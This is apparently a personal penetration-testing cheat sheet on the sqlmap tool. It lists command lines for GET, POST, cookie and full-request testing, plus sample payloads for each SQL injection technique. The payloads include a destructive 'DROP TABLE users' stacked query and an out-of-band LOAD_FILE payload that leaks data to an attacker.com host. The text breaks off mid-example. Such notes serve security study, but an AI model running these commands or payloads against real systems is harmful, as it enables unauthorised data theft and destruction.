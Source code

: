 ```sqlmap
sqlmap -u 'http://IP:PORT/page.php?id=1'
```

[Hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)
###### --techniques
- **`B`: Boolean-based blind**
	- AND 1=1
- **`E`: Error-based**
	- AND GTID_SUBSET(@@version,0)
- **`U`: Union query-based**
	- UNION ALL SELECT 1,@@version,3
- **`S`: Stacked queries**
	- ; DROP TABLE users
- **`T`: Time-based blind**
	- AND 1=IF(2>1,SLEEP(5),0)
- **`Q`: Inline queries**
	- SELECT (SELECT @@version) from
- **Out-of-band SQL Injection**
	- LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))

##### **CURL**
![[curl-sqlmap.png]]
```sqlmap
sqlmap <curl value>
```
# GET/POST Requests
```sqlmap
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

```sqlmap
sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
```
# Full HTTP Requests
```sqlmap
sqlmap -r request.txt
```
# Custom SQLMap Requests
###### Cookie
```sqlmap
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```
or
```sqlmap
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```
###### API
```sqlmap
sqlmap -u www.target.com --data='id=1' --method PUT
```
# Custom HTTP Requests
###### JSON
```json
HTTP / HTTP/1.0
Host: www.example.com

{
  "data": [{
    "type": "articles",
```